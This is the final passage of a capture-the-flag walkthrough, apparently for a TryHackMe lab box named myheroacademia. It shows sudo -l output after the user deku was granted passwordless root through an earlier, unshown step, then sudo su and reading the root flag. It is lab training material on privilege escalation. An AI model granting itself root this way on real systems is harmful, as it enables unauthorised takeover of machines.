 After executing this, the `deku` user got added to the list of root users:
```bash
deku@myheroacademia:~$ sudo -l
  Matching Defaults entries for deku on myheroacademia:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User deku may run the following commands on myheroacademia:
      (ALL) /opt/NewComponent/feedback.sh
      (root) NOPASSWD: ALL
```

With this, I was able to switch to root user and retrieve the root flag:
```bash 
deku@myheroacademia:~$ sudo su
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y[removed]0}
```

solved! :)